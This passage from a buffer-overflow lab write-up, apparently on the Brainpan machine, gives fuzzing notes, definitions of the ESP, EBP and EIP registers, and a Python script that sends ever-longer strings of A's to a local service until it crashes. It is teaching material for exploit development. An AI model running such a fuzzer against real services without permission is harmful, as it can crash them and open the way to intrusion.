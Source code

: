 #### Fuzzing

- Remember in python3 you need to encode the payload
- fuzzing crashed at 600 bytes
- EIP Successful overrided with As (41)

-   `Extended Stack Pointer (ESP)`

ESP denotes the address where the next data has to be entered into the stack and holds the top of the stack. This is the point where the instructions which use the stack (PUSH, POP, CALL and RET).

-   `Buffer Space`

A stack buffer is a type of buffer or temporary location created within a computer’s memory for storing and retrieving data from the stack. It enables the storage of data elements within the stack, which can later be accessed programmatically by the program’s stack function or any other function calling that stack. Any information placed into the buffer space should never travel outside of the buffer space itself.

-   `Extended Base Pointer (EBP)`

EBP denotes the address of the location where the first data has to be entered into the stack.

-   `Extended Instruction Pointer (EIP) / Return Address`

EIP denotes the address of next instruction has to be executed into the stack.

![image]( /assets/img/brainpan/Pasted image 20210609231540.png)


```python
import sys, socket
import time

buffer = "A" * 100

while True:

 try:
     s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
     s.connect(('127.0.0.1',9999))
     s.recv(1024)
     buffer = buffer + "A" * 100
     s.send(buffer.encode('utf-8'))
     s.close()
     time.sleep(1)
     print("Fuzzing passed %s bytes" % str(len(buffer)))

 except Exception as ex:

        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        print(ex)
        sys.exit()
```

#### Offset

